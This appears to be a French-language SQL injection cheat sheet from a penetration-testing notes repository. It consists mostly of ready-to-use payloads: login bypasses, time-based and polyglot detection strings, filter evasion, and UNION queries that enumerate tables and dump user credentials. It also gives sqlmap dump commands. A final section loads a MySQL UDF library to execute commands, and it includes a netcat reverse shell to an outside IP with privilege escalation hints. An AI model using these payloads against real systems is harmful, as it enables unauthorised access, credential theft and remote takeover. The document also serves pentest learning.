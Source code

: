 

<!--- category: sqli --->
<!--- id: intro --->
<!--- title: SQLi --->
<!--- keywords:  --->
## SQLi




<!--- category: sqli --->
<!--- id: principe --->
<!--- title: Principe --->
<!--- keywords:  --->
## Principe

Injecter des commandes SQL dans les paramêtres pour réécrire la requête.
```
SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
```

Méthode : fermer la ', élargir la requête avec OR 1=1, ajouter des valeurs avec UNION, commenter la fin de la requête avec # ou -- -
```
Valeur des paramètres envoyés :
USER=admin' OR 1=1 -- -
PASSWORD=ferrari

Requète SQL obtenue:
SELECT * FROM user WHERE login='admin' OR 1=1 -- - and password='ferrari';
```

Envoyer les paramètres avec Curl:
```
curl http://target/login.pgp?login=admin' OR 1=1 -- -&password=ferrari
```




<!--- category: sqli --->
<!--- id: sqli-fun --->
<!--- title: Les Exploits de maman --->
<!--- keywords:  --->
## Les Exploits de maman

<img src='https://imgs.xkcd.com/comics/exploits_of_a_mom.png'> 
- Bonjour, c'est l'école de votre fils. Nous avons des petits soucis informatiques.
- A-t-il cassé quelque chose ?
- D'une certaine manière
- Avez vous réellement donné comme prénom à votre fils: Robert'); DROP TABLE Students; -- ?
- Oh, oui, on le surnomme notre petit Bobby Tables
- Nous venons de perdre l'intégralité des données sur les étudiants. J'espère que vous êtes satisfaite.
- Et moi j'espère que vous avez appris à filtrer vos données utilisateurs





<!--- category: sqli --->
<!--- id: sql-mysql --->
<!--- title: MySQL/MariaDB - Commandes --->
<!--- keywords:  --->
## MySQL/MariaDB - Commandes

Connect to a remote mysql database:
```
mysql -u admin --host=10.10.12.10 : without password
mysql -u admin --host=10.10.12.10 -padmin : with password
```

Usefull commands:
```
SELECT @@version;
SELECT user();
SHOW Databases;
USE database;
SHOW tables;
SELECT * from table;
```




<!--- category: sqli --->
<!--- id: detect --->
<!--- title: Détecter une SQLi --->
<!--- keywords:  --->
## Détecter une SQLi

Vous êtes devant une page web contenant un formulaire de login/register/search,...
Saisissez des fermetures de string ' ou " pour générer une erreur.<br/>
Injecter un sleep et remarquer un retard de la réponse.
```
admin' and sleep(5) and '1'='1
admin" and sleep(5) and "1"="1
```




<!--- category: sqli --->
<!--- id: detect --->
<!--- title: Détecter une SQLi : Polyglot --->
<!--- keywords:  --->
## Détecter une SQLi : Polyglot

Un polyglot est une séquence capable de s'adapter à de nombreux scénario
```
/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
```




<!--- category: sqli --->
<!--- id: limit --->
<!--- title: Selectionner une seule entrée --->
<!--- keywords:  --->
## Selectionner une seule entrée

Généralement les développeurs prennent la première entrée. Mais parfois ils vérifient qu'il n'y en a bien qu'une seule.
```
admin' or 1=1 LIMIT 1 -- -
```




<!--- category: sqli --->
<!--- id: simplefilter --->
<!--- title: Contourner les filtres simple --->
<!--- keywords:  --->
## Contourner les filtres simple

Les développeurs filtrent parfois de caractères ou des mot:
```
Space => Tab %09, Newline %A0, /**/
AND   => && %26%26
OR    => ||
```




<!--- category: sqli --->
<!--- id: union --->
<!--- title: Injecter des valeurs avec un UNION --->
<!--- keywords:  --->
## Injecter des valeurs avec un UNION

Quand la requête sert à afficher des entrées (ex: liste d'objets), on peut ajouter des valeurs avec un UNION.<br/>
Il faut commencer par identifier le nombre d'entrées qu'attend le select<br/>
```
SELECT id, name, desc, price FROM stock WHERE name=[NAME]
```

Methode 1: ORDER BY
```
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 1-- - : Ok
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 2-- - : Ok
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 3-- - : Ok
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 4-- - : Ok
SELECT id, name, desc, price FROM stock WHERE name='mouse' order by 5-- - : Erreur
=> 4 entrées
```

Methode 2: SELECT
```
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1 : Erreur
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2 : Erreur
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2,3 : Erreur
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2,3,4 : Ok
=> 4 entrées
```




<!--- category: sqli --->
<!--- id: uniontablenames --->
<!--- title: UNION: Table names --->
<!--- keywords:  --->
## UNION: Table names

```
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2,table_name,table_name FROM information_schema.tables; -- -  
```




<!--- category: sqli --->
<!--- id: uniontablecolumnnames --->
<!--- title: UNION: Table columns names --->
<!--- keywords:  --->
## UNION: Table columns names

```
SELECT id, name, desc, price FROM stock WHERE name='mouse' UNION SELECT 1,2,column_name,column_name FROM information_schema.columns WHERE  table_name='users'; -- -
```




<!--- category: sqli --->
<!--- id: uniontablecolumnnames --->
<!--- title: UNION: Dump table --->
<!--- keywords:  --->
## UNION: Dump table

```
UNION SELECT concat(name,':',pass),1 FROM users; -- -
```




<!--- category: sqli --->
<!--- id: sqlmap --->
<!--- title: SqlMap --->
<!--- keywords:  --->
## SqlMap

SQLi sur les paramètres d'un GET
```
$ sqlmap -u 'http://10.10.10.129/sqli/example1.php?name=root' --dbs --banner
```

SQLi sur les paramètres d'un POST. <br/>
Intercepter la requète avec Burp, et la sauver dans un fichier login.txt
```
$ sqlmap -r login.txt --dbs --banner
  -p name : forcer le paramètre à tester
```
 
Lister les tables, puis dumper une table
```
$ sqlmap -r login.txt -D jetadmin --tables
$ sqlmap -r login.txt -D jetadmin -T users --dump
```




<!--- category: sqli --->
<!--- id: mysqludf --->
<!--- title: MySQL: UDF User Defined Function --->
<!--- keywords:  --->
## MySQL: UDF User Defined Function

Compiler une librairie UDF contenant le fonction sys_exec()<br/>
L'uploader sur le serveur. La déclarer. La fonction sys_exec() permet de lancer des commandes.
```
# Tested with : mysql 5.5.60-0+deb8u1
# Create a 'User Defined Function' calling C function 'system'
# Use pre-compiled 32 or 64 depending on target.
# Copy file to /tmp
create database exploittest;
use exploittest;
create table bob(line blob);
insert into bob values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from bob into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so
create function sys_exec returns int soname 'lib_mysqludf_sys.so';
select sys_exec('nc 11.0.0.21 4444 -e /bin/bash');

select sys_exec('/bin/sh');
after bash access, 'bash –p' or 'sudo su'
```


